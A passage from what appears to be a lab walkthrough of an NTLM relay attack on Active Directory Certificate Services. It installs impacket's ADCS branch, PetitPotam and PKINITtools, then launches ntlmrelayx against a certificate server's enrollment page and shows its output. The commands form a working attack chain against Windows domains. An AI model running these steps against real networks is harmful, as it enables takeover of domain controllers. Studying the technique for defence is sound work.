 ```shell
cd pyvirtenv
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
python3 setup.py install
```
#### 2. PetitPotam installation

```shell
cd pyvirtenv
git clone https://github.com/topotam/PetitPotam
cd PetitPotam
sudo pip3 install -r requirements.txt
```

#### 3. PKINITtools installation

```shell
cd pyvirtenv
git clone https://github.com/dirkjanm/PKINITtools
cd PKINITtools
sudo pip3 install -r requirements.txt
```
Let's rock'n roll and execute the attack...

### The attack

Lets first launch the ntlmrelay to start listening for inbound authentication attempts from the domain controller targeted with PetitPotam.
Before typing all the commands, ensure that your Kali Linux machine resolves the FQDN of the Certificate server (ADCS) and Active Directory Domain controller 
by adding the DNS server IP running on the Domain Controller at /etc/resolv.conf.

/etc/resolv.conf:
```text
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

nameserver 192.168.201.9 # Domain controller IP hosting the DNS server
``` 
Launch the ntlmrelay listener targeting web enrollment url of the certificate server (http://cavictim2012r2.victim.com/certsrv/certrqus.asp).
```shell
(pyvirtenv) ┌──(root💀coolhostname)-[~/pyvirtenv]
└─# python3 impacket/examples/ntlmrelayx.py -debug -smb2support --target http://cavictim2012r2.victim.com/certsrv/certrqus.asp --template DomainController --adcs
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /root/pyvirtenv/lib/python3.10/site-packages/impacket
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack SMB loaded..
```